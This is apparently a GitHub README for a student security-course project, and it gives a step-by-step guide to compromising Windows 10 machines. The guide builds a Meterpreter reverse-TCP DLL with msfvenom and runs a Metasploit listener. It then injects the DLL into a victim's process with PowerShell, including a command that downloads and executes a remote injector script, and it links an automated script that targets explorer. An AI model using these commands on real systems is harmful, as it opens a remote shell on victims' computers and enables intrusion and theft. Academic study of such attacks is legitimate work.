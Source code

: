 
# Security of Systems and Networks - Final Project

This is a Project made for the curricular unit Security of Systems and Networks.

Our final project consists in a system attack that targets Windows 10 machines. 
It consists in a DLL injection of a malicious DLL containing a payload from Metasploit. The payload used was Meterpreter to implement a reverse shell to the infected computer.






## Attack Guide
### Creation of the DLL and setup of the listener

Open Kali Linux terminal and type the following command:

```http
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<SOME_PORT> -f dll > <OUTPUT_PATH> 
```

Once the DLL is created in the output path specified, copy it to a USB storage device.

After that, we need to setup the listener. Firstly, open the Metasploit Framwork console by typing the command:

```http
  msfconsole
```
Once it opens, select usage of "exploit/multi/handler" module:

```http
  use exploit/multi/handler
```

Then, set the payload used to create the DLL file:

```http
  set payload windows/x64/meterpreter/reverse_tcp
```

Now set your IP:

```http
  set lhost <YOUR_IP>
```

And the port specified previously:

```http
  set lport <SOME_PORT>
```

Finally to start listening just execute:

```http
  exploit
```

As soon as the victim's machine has the DLL injected the connection will establish and you should see something like this.

![App Screenshot](https://raw.githubusercontent.com/GVO72/SSR_FP/main/Images/listener_established_conn.png)

### DLL injection in victims PC - Manually

Insert the USB storage device and open Powershell.

Now run the command below, select a process where you will inject the DLL and anotate its pid.

```http
  ps
```

After that, enable TLS 1.2 with the command:

```http
  [Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12
```

Download the injector provided in this repository:

```http
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/GVO72/SSR_FP/main/Invoke-DllInjection.ps1')
```

And finally inject the malicious DLL with the command:

```http
  Invoke-DllInjection -ProcessID <selected_pid> -Dll <path_of_the_dll>
```

If everything works as expected you should see something like this.

![App Screenshot](https://raw.githubusercontent.com/GVO72/SSR_FP/main/Images/ps_comands.png)

### DLL injection in victims PC - Script automated

If the victim's machines allows Powershell scripts to be executed you can simply download our script that does the the injection commands for you. Basically it searches for the pid of "explorer" and injects the DLL that he presumes to be in D:\ and is named "inject.dll". You can change the path to your DLL's name and path.

Download the script here: https://github.com/GVO72/SSR_FP/releases/download/v1.0/inject.ps1